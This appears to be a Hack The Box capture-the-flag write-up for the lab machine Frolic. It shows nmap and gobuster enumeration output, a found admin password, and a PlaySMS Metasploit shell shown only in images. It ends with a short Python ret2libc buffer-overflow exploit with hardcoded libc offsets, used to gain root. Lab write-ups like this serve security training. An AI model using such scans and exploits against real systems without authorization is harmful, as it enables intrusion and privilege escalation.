# Frolic (`10.10.10.111`)

## Summary

I find a vulnerable application `playsms`, use a metasploit module to pop a shell as `www-data`, and write a ROP exploit to get `root`.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports frolic.htb
Host is up, received user-set (0.054s latency).
Scanned at 2020-10-26 17:02:56 EDT for 114s
Not shown: 65530 closed ports
Reason: 65530 resets
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3HUqxhCShF9I6uBmGCX6yXz56Iibv7WW2fBKsKA9yVqmoupPdDKac1U3/PIioRNHkPC03r5ZXsqfALwjIWEits7toO4K+9VSFU6d0qhmpUZW3WwiyxdcPxmTQLpU8InXZpMOwjpGJTTwqxsMIxNdPk0FP/MtqEzQI45MOr7IQOGcEAsmcJ1Cy3aRDAnp77NBWYA316l7Xb8WA/aWoHEyS/6Qf3XzeARf0yZ6YwYg4TTsaeQtfRr4HWZBDs7fLrrWUzN0ivb9izy9YgqrOJ5ZKQI4A1yn0CxZNsiweIT8gopM1KrfinPGiKbGbSNVvTX2dHYyISh6Y2bp1D5vum6SH
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDSjEcHeA/VoBi4PaoyxwM1Rx1vpoQofoJPYTxBuQLXRujf3gqn491cWpd2CDh2mF/3w2kEGsrWRwqD4LZmz+Sk=
|   256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINVT+d0lX5zwXTOY4h4+MfU6kt/q3EmGVWIXnMsomQq5
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        syn-ack ttl 63 Node.js (Express middleware)
|_http-favicon: Unknown favicon MD5: 818DD6AFD0D0F9433B21774F89665EEA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Node-RED
9999/tcp open  http        syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
```

### Port 1880



### Port 9999

```bash
$ gobuster dir -u http://10.10.10.111:9999/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -z -k -l -x "txt,html,php,asp,aspx,jsp"
...
/.hta (Status: 403) [Size: 178]
/.hta.asp (Status: 403) [Size: 178]
/.hta.aspx (Status: 403) [Size: 178]
/.hta.jsp (Status: 403) [Size: 178]
/.hta.txt (Status: 403) [Size: 178]
/.hta.html (Status: 403) [Size: 178]
/.htaccess (Status: 403) [Size: 178]
/.htaccess.txt (Status: 403) [Size: 178]
/.htaccess.html (Status: 403) [Size: 178]
/.htaccess.asp (Status: 403) [Size: 178]
/.htaccess.aspx (Status: 403) [Size: 178]
/.htaccess.jsp (Status: 403) [Size: 178]
/.htpasswd (Status: 403) [Size: 178]
/.htpasswd.aspx (Status: 403) [Size: 178]
/.htpasswd.jsp (Status: 403) [Size: 178]
/.htpasswd.txt (Status: 403) [Size: 178]
/.htpasswd.html (Status: 403) [Size: 178]
/.htpasswd.asp (Status: 403) [Size: 178]
/admin (Status: 301) [Size: 194]
/backup (Status: 301) [Size: 194]
/cgi-bin/.html (Status: 403) [Size: 178]
/dev (Status: 301) [Size: 194]
/test (Status: 301) [Size: 194]
```











`admin:superduperlooperpassword_lol` works and redirects me to this page:









## Reverse Shell

Guessed this exploit would work -- and it does.



## Upgrading Shell



## User Proof

Readable as `www-data`.



## Privilege Escalation

ROP time.





I pull the binary to my host to work on developing an exploit.



Find offset.






The offset is 52 bytes. 

The `libc` address is: `0xb7e19000`.



The `system` offset in `libc` is: `0x0003ada0`.



The `exit` offset in `libc` is: `0x0002e9d0`



And the offset of `/bin/sh` in `libc` is: `0x0015ba0b`.



```python
#!/bin/env python

from struct import pack

padding = "A" * 52

libc = 0xb7e19000
system = pack('<I', libc + 0x0003ada0)
exit = pack('<I', libc + 0x0002e9d0)
binsh = pack('<I', libc + 0x0015ba0b)

payload = padding + system + exit + binsh
print payload
```

I compose the exploit, move it over to the target and run it. I am now `root`.

